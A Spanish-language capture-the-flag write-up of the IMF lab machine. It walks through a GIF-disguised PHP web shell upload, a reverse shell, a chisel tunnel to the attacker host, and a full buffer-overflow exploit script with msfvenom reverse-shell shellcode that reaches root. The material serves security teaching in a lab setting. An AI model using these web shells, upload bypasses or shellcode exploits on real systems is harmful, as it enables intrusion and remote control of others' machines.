remote: Total 66 (delta 4), reused 18 (delta 2), pack-reused 46 (from 1)
Receiving objects: 100% (66/66), 7.19 MiB | 16.59 MiB/s, done.
Resolving deltas: 100% (13/13), done.
```

Y con este simple script podemos comprobar que archivos podemos subir al servidor.
```python
#!/usr/bin/python3
import requests
from os import listdir
from os.path import isfile, join

UPLOAD_URL = "http://imf.local/imfadministrator/uploadr942.php"
SAMPLE_FILES_DIRECTORY = "./example-files"

def main():
    files = [f for f in listdir(SAMPLE_FILES_DIRECTORY) if isfile(join(SAMPLE_FILES_DIRECTORY, f))]
    for file in files:
        target_file = open(SAMPLE_FILES_DIRECTORY+"/"+file,"rb")
        r = requests.post(UPLOAD_URL, files = {"file": target_file})
        if "Invalid file type" not in r.text:
            print("[i] Uploaded file: " + file)

if __name__ == "__main__":
    main()
```

```console
python3 detect_filetypes.py
[i] Uploaded file: example.jcamp
[i] Uploaded file: example.pdb
[i] Uploaded file: example.ppt
[i] Uploaded file: example.wav
[i] Uploaded file: example.gif
[i] Uploaded file: example.avi
[i] Uploaded file: example.tif
[i] Uploaded file: example.flac
[i] Uploaded file: example.mnova
[i] Uploaded file: example.gz
[i] Uploaded file: example.pdf
[i] Uploaded file: example.pps
[i] Uploaded file: example.cif
```

Ahora bien, mi intención es intentar ejecutar código PHP en el servidor, intenté cambiando los magic numbers subir los primeros 4 archivos sin éxito, hasta que probé a subir un archivo GIF.

Entonces, [comprobando los Magic Numbers aquí](https://en.wikipedia.org/wiki/List_of_file_signatures) podemos ver que los magic numbers son los siguientes.


Entonces podemos crear nuestro supuesto archivo GIF que vamos a subir.
```console
➜  content cat test.gif
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: test.gif
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ GIF87a;
   2   │ <?php
   3   │
   4   │     phpinfo();
   5   │
   6   │ ?>
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
➜  content file test.gif
test.gif: GIF image data, version 87a, 2619 x 16188
```

Y podemos subir el archivo, ahora bien, ¿donde está subido?


Si inspeccionamos el código fuente, vemos un código, este código resulta que es el nombre del archivo sin la extensión, en este caso, `.gif`


Haciendo un poco de "guessing", podemos ver que existe un directorio `uploads`, esto lo podríamos haber encontrado fuzzeando perfectamente.


Y dentro de este directorio, podemos encontrar el archivo que acabamos de subir, y se está ejecutando el código PHP perfectamente, ahora para poder ganar acceso a la máquina es pan comido.


## Obtaining RCE
Ahora nos creamos una pequeña web shell.
```console
cat -p test.gif
GIF87a;
<?php

    echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";

?>
```

Y tenemos un problema al intentar subirlo...


Pero probando algunas formas básicas de ejecutar comandos en PHP que encontré [en este apartado de HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/index.html#php-command--code-execution), encontré que podemos ejecutar comando utilizando las `backticks`.



```console
cat -p test.gif
GIF87a;
<?php

    echo "<pre>" . `uname -a` . "</pre>";

?>
```

Y podemos ver el comando ejecutado.


Ahora vamos a hacer un pequeño ajuste a nuestra web shell para poder ejecutar los comandos que mandemos por el parámetro `cmd`
```console
cat -p test.gif
GIF87a;
<?php

    if (isset($_GET['cmd'])) {
        $cmd = $_GET['cmd'];
        echo "<pre>" . `{$cmd}` . "</pre>";
    }
?>
```

Y ahora ya tenemos una webshell funcional.


Ahora ya podemos mandarnos una reverse shell poniéndonos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Utilizamos el típico one-liner para enviarnos una consola pero URL-Encodeado para evitar conflictos.


Y ganamos acceso a la máquina.
```console
(remote) www-data@imf:/var/www/html/imfadministrator/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Podemos ver la flag 5.
```console
(remote) www-data@imf:/var/www/html/imfadministrator/uploads$ cat flag5_abc123def.txt
flag5{YWdlbnRzZXJ2aWNlcw==}
```

## 6th Flag
### Finding the explotation path
Decodificando la flag en base64 nos da una pequeña pista.
```console
echo "YWdlbnRzZXJ2aWNlcw==" | base64 -d
agentservices
```

Agentes, servicios...

Si listamos los puertos abiertos en el sistema vemos un puerto 7788 que no sabemos que es.
```console
(remote) www-data@imf:/var/www/html/imfadministrator/uploads$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:7788            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

Si intentamos conectarnos con `netcat` a este puerto vemos algo extraño, obviamente esto es algo personalizado de la máquina así que tiene pinta de que van por aquí los tiros.
```console
(remote) www-data@imf:/var/www/html/imfadministrator/uploads$ nc 127.0.0.1 7788
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID :
```

Ahora bien, me interesa saber que binario o que script está gestionando por detrás la conexión a este puerto.

Buscando archivos cuyo nombre contenta `agent` encontramos un archivo interesante, `/usr/local/bin/agent`
```console
find / -name *agent* 2>/dev/null
/usr/local/bin/agent
/usr/lib/x86_64-linux-gnu/libpolkit-agent-1.so.0.0.0
/usr/lib/x86_64-linux-gnu/libpolkit-agent-1.so.0
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/src/linux-headers-4.4.0-42/arch/mips/include/asm/sn/agent.h
/usr/src/linux-headers-4.4.0-45/arch/mips/include/asm/sn/agent.h
/usr/src/linux-headers-4.4.0-31/arch/mips/include/asm/sn/agent.h
/usr/share/upstart/sessions/ssh-agent.conf
/usr/share/doc/libpolkit-agent-1-0
/usr/share/bash-completion/completions/cfagent
/usr/share/man/man1/pkttyagent.1.gz
/usr/share/man/man1/ssh-agent.1.gz
/usr/share/man/man1/systemd-tty-ask-password-agent.1.gz
/usr/bin/pkttyagent
/usr/bin/ssh-agent
/var/lib/dpkg/info/libpolkit-agent-1-0:amd64.list
/var/lib/dpkg/info/libpolkit-agent-1-0:amd64.triggers
/var/lib/dpkg/info/libpolkit-agent-1-0:amd64.md5sums
/var/lib/dpkg/info/libpolkit-agent-1-0:amd64.symbols
/var/lib/dpkg/info/libpolkit-agent-1-0:amd64.shlibs
/var/lib/lxcfs/cgroup/net_cls,net_prio/release_agent
/var/lib/lxcfs/cgroup/hugetlb/release_agent
/var/lib/lxcfs/cgroup/devices/release_agent
/var/lib/lxcfs/cgroup/blkio/release_agent
/var/lib/lxcfs/cgroup/freezer/release_agent
/var/lib/lxcfs/cgroup/cpuset/release_agent
/var/lib/lxcfs/cgroup/cpu,cpuacct/release_agent
/var/lib/lxcfs/cgroup/memory/release_agent
/var/lib/lxcfs/cgroup/pids/release_agent
/var/lib/lxcfs/cgroup/perf_event/release_agent
/var/lib/lxcfs/cgroup/name=systemd/release_agent
/var/cache/apt/archives/libpolkit-agent-1-0_0.105-14.1ubuntu0.5_amd64.deb
/lib/systemd/system/mail-transport-agent.target
/lib/systemd/systemd-cgroups-agent
/sys/fs/cgroup/net_cls,net_prio/release_agent
/sys/fs/cgroup/hugetlb/release_agent
/sys/fs/cgroup/devices/release_agent
/sys/fs/cgroup/blkio/release_agent
/sys/fs/cgroup/freezer/release_agent
/sys/fs/cgroup/cpuset/release_agent
/sys/fs/cgroup/cpu,cpuacct/release_agent
/sys/fs/cgroup/memory/release_agent
/sys/fs/cgroup/pids/release_agent
/sys/fs/cgroup/perf_event/release_agent
/sys/fs/cgroup/systemd/release_agent
/run/systemd/cgroups-agent
/bin/systemd-tty-ask-password-agent
/etc/xinetd.d/agent
```

Que de hecho, este archivo está en nuestro PATH, por lo cual podemos simplemente ejecutar `agent` y vemos que este es el binario que estábamos buscando.
```console
(remote) www-data@imf:/var/www/html/imfadministrator/uploads$ agent
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID :
```

Vemos que este es un binario.
```console
(remote) www-data@imf:/var/www/html/imfadministrator/uploads$ file /usr/local/bin/agent
/usr/local/bin/agent: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=444d1910b8b99d492e6e79fe2383fd346fc8d4c7, not stripped
```

Así que nos vamos a descargar este binario en nuestra máquina víctima utilizando la función `download` de `pwncat-cs`
```console
(local) pwncat$ download /usr/local/bin/agent
/usr/local/bin/agent ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 11.9/11.9 KB • ? • 0:00:00
[19:28:57] downloaded 11.90KiB in 0.09 seconds 
```

### Reversing the binary w/ghidra
### Bypassing Authentication
Podemos ver que en la variable `local_22` se almacena lo que introduce el usuario, en este caso es un tipo de identificador de un agente, para poder autenticarnos lo que introduzca el usuario debe de ser lo mismo almacenado en la variable `local_28`


La variable `local_28` tiene el siguiente valor: `0x2ddd984` el cual está en hexadecimal.
```console
python
Python 3.11.9 (main, Apr 10 2024, 13:16:36) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x2ddd984)
48093572
```

Convirtiendolo a decimal, tenemos un número: `48093572`, con este ID podemos autenticarnos en el panel.
```console
(remote) www-data@imf:/var/www/html/imfadministrator/uploads$ agent
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 48093572
Login Validated
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
0. Exit
```

### Validating the Buffer Overflow
Analizando la funcionalidad de el binario.
La opción número uno reporta información por consola, podemos consultar el código en `ghidra` y vemos que no hay nada explotable aquí.


La segunda funcionalidad pide un dato al usuario el cual está limitado a 55 caracteres y utiliza `fgets` para leer hasta **55 caracteres** (`0x37` en hexadecimal es 55) desde la entrada estándar (`stdin`) y los almacena en el buffer `local_45`.



La tercera funcionalidad pide un dato al usuario el cual está limitado a `164` caracteres pero en ningún momento se hace la comprobación del limite de caracteres por lo cual esto sería vulnerable a Buffer Overflow.


Podemos comprobarlo poniendo muchas `A` para sobrecargar la pila y ver si nos retorna un `Segmentation fault` y efectivamente, podemos confirmar que es vulnerable.


### Reverse Port Forwarding
Vamos a subir el binario de `chisel` a la máquina víctima para compartirnos el puerto 7788/TCP.
```console
(local) pwncat$ upload chisel
./chisel ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 8.7/8.7 MB • 2.4 MB/s • 0:00:00
[19:52:58] uploaded 8.65MiB in 3.97 seconds
```

En nuestra máquina nos ponemos en escucha con `chisel` por el puerto 1234.
```console
/usr/share/chisel server --reverse -p 1234
2025/01/27 19:53:44 server: Reverse tunnelling enabled
2025/01/27 19:53:44 server: Fingerprint VQMHWDWpyhPcauXiGId/Q4eKo5lgOy/zSUFcouKW534=
2025/01/27 19:53:44 server: Listening on http://0.0.0.0:1234
```

Y en la máquina víctima nos conectamos a nuestra máquina de atacante por el puerto 1234 compartiendo el puerto 7788/TCP para que se convierta en el puerto 7788/TCP de nuestra máquina local.
```console
chmod +x chisel
./chisel client 192.168.18.132:1234 R:7788:127.0.0.1:7788
```

Ahora podemos comprobar que todo ha salido bien haciendo un `netcat` al puerto 7788 en nuestra máquina local.
```console
nc 127.0.0.1 7788
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID :
```

Ahora si, podemos continuar con el BoF.

### Buffer Overflow (ret2reg)
Primero vamos a comprobar si tiene algún método de seguridad activado y podemos ver que no.
```console
gdb-peda$ checksec
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.

CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

Vamos a crear un patrón de 400 caracteres para saber cual es el offset para llegar al EIP.
```console
gdb-peda$ pattern create 400
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y'
```

Podemos ver que el EIP se queda en la cadena `VAAt`


Ahora podemos saber cual es el offset fácilmente y vemos que es 168.
```console
gdb-peda$ pattern offset $eip
1950433622 found at offset: 168
```

Ahora sabiendo el offset, podemos hacer un `ret2reg`, para ello tenemos que buscar una instrucción de llamada al EAX donde vamos a ejecutar nuestro shellcode.

Utilizando [ropshell.com](http://ropshell.com/ropsearch?h=fabc1afd43f668df0b812213567d032c) podemos ver que alguien ya ha utilizado esta herramienta para encontrar alguna llamada interesante.


Y tenemos justo la llamada a EAX que queremos en esta sección de memoria `0x08048563`.

Teniendo la llamada al EAX, vamos a generar nuestro shellcode con `msfvenom` y a pegarlo en nuestro exploit.
```console
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.18.132 LPORT=443 -b '\x00\x0a' --format py
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 479 bytes
buf =  b""
buf += b"\xdb\xd8\xbf\xa3\x68\xf1\xca\xd9\x74\x24\xf4\x5d"
buf += b"\x29\xc9\xb1\x12\x31\x7d\x17\x83\xc5\x04\x03\xde"
buf += b"\x7b\x13\x3f\x11\xa7\x24\x23\x02\x14\x98\xce\xa6"
buf += b"\x13\xff\xbf\xc0\xee\x80\x53\x55\x41\xbf\x9e\xe5"
buf += b"\xe8\xb9\xd9\x8d\x2a\x91\x08\xc9\xc3\xe0\x2c\xd0"
buf += b"\xa8\x6c\xcd\x62\xa8\x3e\x5f\xd1\x86\xbc\xd6\x34"
buf += b"\x25\x42\xba\xde\xd8\x6c\x48\x76\x4d\x5c\x81\xe4"
buf += b"\xe4\x2b\x3e\xba\xa5\xa2\x20\x8a\x41\x78\x22"
```

Ahora ya tenemos todo lo necesario, simplemente hay que recordar un par de cosas.

**`AGENT_ID` y `STEP_TWO_INPUT`**: Son los valores que el exploit envía en las dos primeras interacciones con el servicio. El primer valor es "48093572" y el segundo es "3".

**`OFFSET`**: Define cuántos bytes necesitas rellenar en el desbordamiento de búfer para llegar a la dirección de retorno. Este valor se determina previamente (mediante ingeniería inversa o pruebas) y es crítico para que el exploit funcione correctamente.

**Padding**: Esta línea añade relleno al `payload` (en forma de `b"A"` repetido) hasta que el total de bytes enviados sea igual al valor de `OFFSET`. Esto asegura que el shellcode (almacenado en `buf`) se coloca justo antes de la dirección de retorno en la pila. El relleno ocupa el espacio de memoria que se desborda, lo que sobrescribe la dirección de retorno.

Y por último la **dirección de retorno**: Aquí se especifica una dirección de memoria (`0x08048563`) que corresponde a la función o instrucción que queremos ejecutar después de que se realice el desbordamiento. `struct.pack(f'<I', 0x08048563)` convierte esta dirección en un formato de bytes que se puede enviar a través del socket.

El exploit se queda en esto.
```python
#!/usr/bin/python3
import socket
import struct

HOST = "127.0.0.1"
PORT = 7788
AGENT_ID = b"48093572"
STEP_TWO_INPUT = b"3"
OFFSET = 168

buf =  b""
buf += b"\xdb\xd8\xbf\xa3\x68\xf1\xca\xd9\x74\x24\xf4\x5d"
buf += b"\x29\xc9\xb1\x12\x31\x7d\x17\x83\xc5\x04\x03\xde"
buf += b"\x7b\x13\x3f\x11\xa7\x24\x23\x02\x14\x98\xce\xa6"
buf += b"\x13\xff\xbf\xc0\xee\x80\x53\x55\x41\xbf\x9e\xe5"
buf += b"\xe8\xb9\xd9\x8d\x2a\x91\x08\xc9\xc3\xe0\x2c\xd0"
buf += b"\xa8\x6c\xcd\x62\xa8\x3e\x5f\xd1\x86\xbc\xd6\x34"
buf += b"\x25\x42\xba\xde\xd8\x6c\x48\x76\x4d\x5c\x81\xe4"
buf += b"\xe4\x2b\x3e\xba\xa5\xa2\x20\x8a\x41\x78\x22"

# Padding
payload = buf + b"A" * (OFFSET - len(buf))

# Call EAX
payload += struct.pack(f'<I',0x08048563) + b"\n"

try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        print("[+] Conectando al cliente")
        s.connect((HOST,PORT))
        print(f"[+] Autenticando con el AGENT_ID: {AGENT_ID}")
        s.sendall(AGENT_ID+b"\n")
        print(f"[+] Enviando: {STEP_TWO_INPUT}")
        s.sendall(STEP_TWO_INPUT+b"\n")
        print(f"[+] Enviando payload de tamaño {len(buf)} bytes...")
        s.sendall(payload + b"\n")
        response = s.recv(1024)
        print(f"[+] Respuesta del servidor:\n{response.decode()}")
except Exception as e:
    print(f"[-] Error: {e}")
```

Ahora nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Lanzamos nuestro exploit.
```console
python3 bof.py
[+] Conectando al cliente
[+] Autenticando con el AGENT_ID: b'48093572'
[+] Enviando: b'3'
[+] Enviando payload de tamaño 95 bytes...
[+] Respuesta del servidor:
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID :
```

Y podemos ver que ganamos acceso al sistema como `root` en la sesión de `pwncat-cs`
```console
(remote) root@imf:/# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos ver la sexta flag.
```console
root@imf:/root# cat Flag.txt
flag6{R2gwc3RQcm90MGMwbHM=}
```

¡Y ya estaría!

Happy Hacking! 🚀